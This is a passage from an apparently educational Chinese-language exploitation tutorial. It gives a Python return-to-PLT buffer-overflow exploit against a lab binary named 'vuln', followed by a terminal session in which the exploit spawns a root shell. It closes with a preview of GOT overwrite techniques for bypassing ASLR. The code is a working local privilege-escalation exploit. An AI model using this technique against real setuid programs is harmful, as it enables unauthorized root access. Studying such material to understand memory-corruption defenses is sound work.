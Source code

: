 漏洞利用代码：  

``` python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
system = 0x8048380
exit = 0x80483a0
system_arg = 0x80485b5     #Obtained from hexdump output of executable 'vuln'
#endianess convertion
def conv(num):
 return struct.pack("<I",num)
buf = "A" * 268
buf += conv(system)
buf += conv(exit)
buf += conv(system_arg)
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上述程序就可以获取root shell，如下所示：  

``` python
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA������
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
注意： 为了获取这个root shell，可执行文件必须包含’system@PLT’与’exit@PLT’代码。在第三篇中，我会谈谈利用GOT覆盖与GOT解引用技术，在可执行文件中并没有需要的PLT存根代码并且系统已经打开了ASLR的情况下，攻击者如何调用libc函数。  
